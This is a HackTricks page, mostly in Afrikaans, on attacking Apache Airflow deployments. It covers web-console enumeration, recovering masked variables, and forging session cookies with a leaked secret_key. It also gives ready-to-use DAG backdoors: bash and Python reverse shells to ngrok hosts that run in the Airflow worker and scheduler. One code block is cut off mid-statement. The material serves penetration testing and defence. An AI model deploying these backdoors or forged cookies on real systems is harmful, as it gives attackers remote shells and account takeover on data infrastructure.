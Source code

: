 # Apache Airflow Security

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) dien as 'n platform vir **die orkestrering en skedulering van datapipelines of werksvloei**. Die term "orkestrering" in die konteks van datapipelines dui op die proses van rangskikking, koördinering en bestuur van komplekse dataverwerkingsvloei wat uit verskeie bronne ontstaan. Die primêre doel van hierdie georkestreerde datapipelines is om verwerkte en verbruikbare datastelle te verskaf. Hierdie datastelle word wyd gebruik deur 'n menigte toepassings, insluitend maar nie beperk tot besigheidsintelligensie-instrumente, datawetenskap en masjienleer modelle, wat almal fundamenteel is vir die funksionering van groot data toepassings.

Basies sal Apache Airflow jou toelaat om **die uitvoering van kode te skeduleer wanneer iets** (gebeurtenis, cron) **gebeur**.

### Local Lab

#### Docker-Compose

Jy kan die **docker-compose konfigurasie lêer van** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) gebruik om 'n volledige apache airflow docker omgewing te begin. (As jy op MacOS is, maak seker dat jy ten minste 6GB RAM aan die docker VM gee).

#### Minikube

Een maklike manier om **apache airflow** te **loop is om dit met minikube** te doen:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Konfigurasie

Airflow mag **sensitiewe inligting** in sy konfigurasie stoor of jy kan swak konfigurasies in plek vind:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Voordat jy begin om Airflow aan te val, moet jy verstaan **hoe toestemmings werk**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Aanvalle

#### Web Konsol Enumerasie

As jy **toegang tot die webkonsol** het, mag jy in staat wees om sommige of al die volgende inligting te bekom:

* **Veranderlikes** (Pasgemaakte sensitiewe inligting mag hier gestoor wees)
* **Verbindings** (Pasgemaakte sensitiewe inligting mag hier gestoor wees)
* Toegang tot hulle in `http://<airflow>/connection/list/`
* [**Konfigurasie**](./#airflow-configuration) (Sensitiewe inligting soos die **`secret_key`** en wagwoorde mag hier gestoor wees)
* Lys **gebruikers & rolle**
* **Kode van elke DAG** (wat interessante inligting mag bevat)

#### Herwin Veranderlikes Waardes

Veranderlikes kan in Airflow gestoor word sodat die **DAGs** hul waardes kan **toegang**. Dit is soortgelyk aan geheime van ander platforms. As jy **genoeg toestemmings** het, kan jy hulle in die GUI in `http://<airflow>/variable/list/` toegang.\
Airflow sal standaard die waarde van die veranderlike in die GUI wys, egter, volgens [**hierdie**](https://marclamberti.com/blog/variables-with-apache-airflow/) is dit moontlik om 'n **lys van veranderlikes** in te stel waarvan die **waarde** as **sterretjies** in die **GUI** sal verskyn.

![](<../../.gitbook/assets/image (164).png>)

Egter, hierdie **waardes** kan steeds **herwin** word via **CLI** (jy moet DB toegang hê), **arbitraire DAG** uitvoering, **API** wat die veranderlikes eindpunt benader (die API moet geaktiveer wees), en **selfs die GUI self!**\
Om toegang tot daardie waardes vanaf die GUI te verkry, kies net die **veranderlikes** wat jy wil toegang en **klik op Aksies -> Eksporteer**.\
'n Ander manier is om 'n **bruteforce** op die **verborge waarde** uit te voer deur die **soekfiltering** totdat jy dit kry:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

As die **`expose_config`** konfigurasie op **Waar** gestel is, kan die **rol Gebruiker** en **bo** die **konfig in die web** **lees**. In hierdie konfig, verskyn die **`secret_key`**, wat beteken enige gebruiker met hierdie geldige kan **sy eie onderteken koekie skep om enige ander gebruikersrekening na te volg**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE in Airflow worker)

As jy **skrywe toegang** het tot die plek waar die **DAGs gestoor word**, kan jy eenvoudig **een skep** wat vir jou 'n **reverse shell** sal stuur.\
Let daarop dat hierdie reverse shell binne 'n **airflow worker container** uitgevoer gaan word:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE in Airflow scheduler)

As jy iets stel om **uitgevoer te word in die wortel van die kode**, op die oomblik van hierdie skrywe, sal dit **deur die skeduleerder uitgevoer word** na 'n paar sekondes nadat dit binne die DAG se gids geplaas is.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Skepping

As jy daarin slaag om 'n **masjien binne die DAG-kluster te kompromitteer**, kan jy nuwe **DAG-skrifte** in die `dags/` gids skep en hulle sal **in die res van die masjiene** binne die DAG-kluster **gekopieer word**.

#### DAG Kode Inspuiting

Wanneer jy 'n DAG vanaf die GUI uitvoer, kan jy **argumente** aan dit **oorgee**.\
Daarom, as die DAG nie behoorlik gekodeer is nie, kan dit **kwulnerabel wees vir Opdrag Inspuiting.**\
Dit is wat in hierdie CVE gebeur het: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Alles wat jy moet weet om **te begin soek na opdrag inspuitings in DAGs** is dat **parameters** met die kode **`dag_run.conf.get("param_name")`** **toegang verkry**.

Boonop kan dieselfde kwesbaarheid met **veranderlikes** voorkom (let daarop dat jy met genoeg regte die **waarde van die veranderlikes** in die GUI kan **beheer**). Veranderlikes word **toegang verkry met**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
As hulle byvoorbeeld binne 'n bash-opdrag gebruik word, kan jy 'n opdraginjeksie uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

